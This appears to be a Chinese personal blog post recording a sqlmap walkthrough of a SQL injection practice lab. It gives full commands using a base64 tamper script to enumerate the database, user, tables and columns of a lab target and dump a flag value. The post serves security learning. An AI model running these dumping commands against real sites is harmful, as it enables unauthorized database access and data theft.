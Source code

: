 ```yaml
---
layout: post
title: "sqlmap实战体验"
date: 2019-05-20
author: jjnoob
categories:
- 2019-05
tags:
- sqli
- sqlmap
---
```


* content
{:toc}


> sqlmap实战体验, 看教程很迷. 实战一次会理解的更好.

> 虽然用linux安装这些工具更合适, 不过这个比较浪费时间. 准备暑假的时候把大部分的工具迁到Linux上去. 我目前还是比较焦急的, 想多学点东西.
> 不太想在细枝末节上面浪费太多时间.
> 仔细想想, 自己的时间已经不多了. web-sec其实上周四(19-05-16)才算刚刚接触, 之前一直在划水摸鱼, 没有深入学习.  
> 还有很多知识点要学, 还有很多工具需要学习怎么使用, 还有课堂的学习, 还有beego等框架.


[参考](https://www.cnblogs.com/dzkwwj/p/9484671.html)

练习地址: 墨者学院-->在线靶场-->web安全-->sql注入-->sql注入实战-MySQL

**题目提示的解题方向:**
参数通过base64编码后传输，然后根据相关提示进行测试

<br />

# 测试注入
测试注入:
```
sqlmap  -u http://219.153.49.228:46768/show.php?id=MQo=
```
结果:
```
[20:34:09] [CRITICAL] all tested parameters do not appear to be injectable. Try to increase values for '--level'/'--risk' options if you wish to perform more tests. If you suspect that there is some kind of protection mechanism involved (e.g. WAF) maybe you could try to use option '--tamper' (e.g. '--tamper=space2comment') and/or switch '--random-agent'
```

> 报错信息可以有道翻译一下, 这么长.

大体意思是: 参数 id 可能不存在注入，可以尝试增加尝试等级（level），或者增加执行测试的风险（risk）。如果你觉得存在某种保护机制，可以使用tamper篡改注入数据

根据提示信息增加level和tamper：
```
sqlmap  -u http://219.153.49.228:46768/show.php?id=MQo= --level=3 --tamper=base64encode
```

返回:
```
web server operating system: Linux Ubuntu
web application technology: Apache 2.4.7, PHP 5.5.9
back-end DBMS: MySQL >= 5.0.12
```

剩下就是常规脱库操作

<br />

# 脱库
## (1) 查看数据库名
```
sqlmap -u http://219.153.49.228:46768/show.php?id=MQo= --level=3 --tamper=base64encode --current-db
```

返回:
```
current database: 'test'
```

## (2) 查看当前用户
```
sqlmap -u http://219.153.49.228:46768/show.php?id=MQo= --level=3 --tamper=base64encode --current-user
```

返回:
```
current user: 'admin@%'
```


## (3) 查看表
查看数据库test中有哪些表:
```
sqlmap -u http://219.153.49.228:46768/show.php?id=MQo= --level=3 --tamper=base64encode -D test --tables
```

返回:
```
Database: test
[1 table]
+------+
| data |
+------+
```

## (4) 查看列
查看data表中有几列:
```
sqlmap -u http://219.153.49.228:46768/show.php?id=MQo= --level=3 --tamper=base64encode -D test -T data --columns
```

返回:
```
Database: test
Table: data
[4 columns]
+--------+------------------+
| Column | Type             |
+--------+------------------+
| id     | int(10) unsigned |
| main   | text             |
| thekey | varchar(255)     |
| title  | varchar(255)     |
+--------+------------------+
```

thekey这个列..

## (5) 最后一步
```
sqlmap -u http://219.153.49.228:46768/show.php?id=MQo= --level=3 --tamper=base64encode -D test --tables -C thekey --dump
```

返回:
```
mozhec42eae6ac2490f9fa58b828f58d
Database: test
Table: data
[1 entry]
+----------------------------------+
| thekey                           |
+----------------------------------+
| mozhec42eae6ac2490f9fa58b828f58d |
+----------------------------------+
```

key:
```
mozhec42eae6ac2490f9fa58b828f58d
```

等待时间有点长, 耐心等待就好.
